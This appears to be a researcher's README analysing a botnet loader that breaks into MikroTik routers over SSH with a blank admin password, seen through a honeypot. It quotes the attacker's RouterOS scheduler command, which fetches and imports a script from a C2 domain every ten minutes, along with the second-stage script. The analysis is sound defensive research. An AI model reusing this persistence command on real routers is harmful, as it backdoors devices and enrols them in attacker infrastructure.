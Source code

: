 # Scripts

```
proxyssh_blankpass.py
mikrotik.sh
```
These scripts are hacky pieces of crap. They were written very quickly to do a specific job and not necessarily to do their job well. They are provided for reference only. As an example of how hacky they are, note that AsyncSSH was used to implement the server part of the ssh proxy script, but no other real async code exists. This was because I needed to quickly turn a low interactivity honeypot I had written into an SSH MitM proxy and was more familar with paramiko than AsyncSSH. 

# Notes

vm 104 = mikrotik1
vm 113 = mikrotik9

VM 113 is the original mikrotik that was infected. Later, I was working on modifying my monitoring script using a fresh mikrotik image (VM 104). 

After setting it up, I decided that I didn't want to wait for it to get infected on it's own again as the loader can take multiple weeks before the final payload is copied over. So I copied the config and private SSH keys[1] from VM 113 to VM 104. 

I then exposed the SOCKS port to the internet. No configuration changes where made by the C2 to VM 113. VM 113 is probably more interesting from a loader standpoint, but the SOCKS traffic ultimately passed through VM 104.

## Loader Behavior
1. Initial vector is SSH. I've been looking at scanners using admin/blank password. After they log in they issue the following command:
```
 /system scheduler add name="U6" interval=10m on-event="/tool fetch url=http://bestony.club/poll/6b0ba0f1-01a5-4433-b4db-0c5603850c99 mode=http dst-path=7wmp0b4s.rsc\r\n/import 7wmp0b4s.rsc" policy=api,ftp,local,password,policy,read,reboot,sensitive,sniff,ssh,telnet,test,web,winbox,write
```

This leads to the following `/system scheduler` config:

```
/system scheduler
add interval=10m name=U6 on-event="/tool fetch url=http://bestony.club/poll/6b0\
    ba0f1-01a5-4433-b4db-0c5603850c99 mode=http dst-path=7wmp0b4s.rsc\r\
    \n/import 7wmp0b4s.rsc" policy=\
```

The URL varies and the domain could be any of the ones listed in the c2domains file. The string in the path following poll seems arbitrary. I've set it to random words and the loader still functions, but it gives you a new string in the usual format at stage 2. I'm guessing it becomes a key in a DB somewhere.

 2. The installed script eventually downloads a script called 7wmp0b4s.rsc. This usually seems to just increase the interval of the original script and the destination filename stays the same.
```
name="7wmp0b4s.rsc" type="script" size=82 creation-time=may/11/2021 03:31:19
contents=:do { /system scheduler set U6 interval=00:03:00 } on-error={ :put "U6 not found"}
```
